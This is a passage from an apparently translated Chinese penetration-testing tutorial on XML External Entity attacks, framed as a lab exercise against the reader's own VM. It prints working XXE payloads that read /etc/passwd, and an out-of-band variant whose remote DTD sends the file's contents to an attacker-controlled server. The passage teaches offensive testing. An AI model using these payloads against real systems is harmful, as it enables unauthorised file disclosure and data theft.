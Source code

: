这通常是你在发送 XML 数据的应用程序中看到的内容。由于我们控制具有 XML 请求的 POST 数据，因此我们可以尝试注入我们自己的恶意实体。默认情况下，大多数 XML 解析库都支持 SYSTEM 关键字，该关键字允许从 URI 读取数据(包括使用 `file://` 协议 )。因此，我们可以创建自己的实体来制作在 `/etc/passwd` 上读取的文件。


|原始 XML 文件|恶意 XML 文件|
|:----:|:----:|
|\<?xml version="1.0" ?> | \<?xml version="1.0"?> |
|\<!DOCTYPE thp [ | \<!DOCTYPE thp [ | 
|\<!ELEMENT thp ANY>|\<!ELEMENT thp ANY>|
|\<!ENTITY book "Universe">|\<!ENTITY book SYSTEM "file:///etc/passwd">|
|]>|]>|
|\<thp>Hack The & book;\</thp>| \<thp>Hack The &book;\</thp> |

**XXE 实验——阅读文件：**

* 拦截 [你的 VM 的 IP]/xxe.php 的流量包并点击 `Hack of XML`
* 将截获的流量包发送到 Repeater
* 将“data”的 POST 参数修改为以下内容：
    * <?xml version ="1.0"?> <!DOCTYPE thp [<!ELEMENT thp ANY> <!ENTITY book SYSTEM "file:/// etc/passwd">]><thp>Hack The %26book%3B </thp>
* 请注意，`%26` 等同于`&`，`%3B`等同于 `;`。我们需要对&符号和分号字符进行百分比编码。
* 发送流量包，我们现在应该能够读取 `/etc/passwd`

 ![](img/chapter_3/3-44.png)

### 高级 XXE——XXE-OOB 
在之前的攻击中，我们能够在`<thp>`标签中获得返回的响应。那么如果我们看不到响应或遇到字符或文件限制怎么办？我们怎样使用带外数据协议（OOB）来发送我们的数据？我们可以提供远程文档类型定义（DTD）文件来执行 OOB-XXE，而不是在请求 payload 中定义我们的攻击。DTD 是结构良好的 XML 文件，用于定义 XML 文档的结构和法律元素及属性。为了简单起见，我们的 DTD 将包含我们所有的攻击或 exfil payload，这将帮助我们解决许多字符的限制。在我们的实验示例中，我们将使有 XXE 漏洞的服务器请求一个托管在远程服务器上的 DTD。

新的 XXE 攻击将分四个阶段进行：
1. 使用篡改后的 XXE XML 攻击
2. 对于存在漏洞的 XML 解析器，它会从攻击者服务器抓取一个 DTD 文件
3. 该 DTD 文件包含读取 /etc/passwd 文件的代码
4. 该 DTD文件也包含用于隐秘传输 /etc/passwd 内容的代码（可能是经过编码的）

设置我们的攻击者机器和 XXE-OOB payload：
* 我们将指定一个外部 DTD 文件，而不是原始文件读取
```xml
<!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;
```

* 新的“数据”POST payload 将如下所示（记得更改 [Your_IP]）：
```xml
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>
```

* 我们需要通过创建名为 payload.dtd 的文件在攻击者服务器上托管此 payload  
    * gedit /var/www/html/payload.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```
